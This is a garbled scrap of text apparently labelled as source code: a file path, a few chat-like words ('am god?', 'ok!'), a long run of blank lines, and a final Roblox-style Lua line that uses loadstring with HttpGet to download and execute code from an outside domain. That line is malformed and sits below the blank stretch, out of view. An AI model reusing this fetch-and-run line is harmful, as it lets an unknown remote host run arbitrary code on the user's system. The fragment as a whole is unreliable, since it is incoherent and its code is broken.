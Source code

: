 Alright




























































































am god?



ok!

loadstring(game:HttpGet("r34.xxx"), true))
